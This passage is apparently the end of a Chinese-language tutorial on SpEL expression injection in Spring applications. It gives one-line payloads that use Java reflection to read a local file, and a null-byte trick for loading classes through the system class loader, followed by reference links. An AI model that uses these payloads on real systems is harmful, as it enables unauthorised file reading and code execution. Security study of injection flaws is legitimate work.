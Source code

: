 **读文件**
整个文件
```java
1.class.forName("java.nio.file.Files").readAllLines(1.class.forName("java.nio.file.Paths").get("G:\\2.txt"))
```
![Y60dtP.png](https://s1.ax1x.com/2020/05/16/Y60dtP.png)

常规注入里基本都可转化为反射注入，这里不在列举
把常见的命令执行和文件读取转化为一句话即可

## 其他

获取类
```java
T%00(java.net.URLClassLoader).getSystemClassLoader().loadClass("java.io.File")
```


# 三、 参考

[SpEL表达式总结](https://www.jianshu.com/p/e0b50053b5d3)

[使用IDEA搭建一个简单的SpringBoot项目——详细过程](https://blog.csdn.net/baidu_39298625/article/details/98102453)

[知识星球](https://govuln.com/)

[JAVA表达式注入漏洞](https://www.jianshu.com/p/e3c77c053359)
